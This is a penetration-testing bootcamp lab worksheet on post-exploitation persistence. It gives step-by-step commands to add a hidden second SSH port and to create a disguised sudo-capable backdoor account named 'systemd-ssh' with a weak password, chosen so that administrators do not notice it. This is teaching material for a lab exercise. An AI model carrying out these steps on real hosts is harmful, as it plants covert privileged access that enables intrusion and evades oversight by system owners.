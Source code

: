 ## Activity File: Persistence

In the previous activity, you dumped the `/etc/shadow` file and cracked several passwords in it. In this activity, you added an additional port for the SSH service to listen on, then opened that port on the firewall. We don't want to change the original port, 22, because that would be a red flag for administrators. 

Finally, you created an account, added it to the sudoers group, and ensured it could SSH over the new port that you specified.

**Reminder**: Ensure that you are performing the activities on the target machine and not your own assessment machine! This means you should be SSH'd in, or have a reverse/Meterpreter shell into the target.

### Instructions 

1. On the target host, read the top 10 lines of the SSH config file, located at `/etc/ssh/sshd_config`, and identify the line where a port is specified.

     - `head /etc/ssh/sshd_config`

     ![A screenshot depicts the results of the command.](head.PNG)
   
2. Using Nano, edit the file to add an additional port, 10022. (You must `sudo` to do this.)

     - `sudo nano /etc/ssh/sshd_config`

	 ![A screenshot depicts the results of the command.](addport.PNG)

     - Due to this machine having limited services, you must restart the machine in order to restart the SSH service. Restart the machine via `sudo reboot`.

3. Now, create a new backdoor account. In order to remain inconspicuous, name this account so that it appears as if it's a service. Create a new account named "systemd-ssh", with the password "password", and then add it to the sudoers group. 

     - `sudo adduser systemd-ssh`

	 ![A screenshot depicts the results of the command.](adduser.PNG)

     - `sudo usermod -aG admin systemd-ssh`

4. Confirm that the new account works by SSHing from your machine to the target host over port 10022 as the new user you created.

     - `ssh systemd-ssh@ipaddress -p 10022`


---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



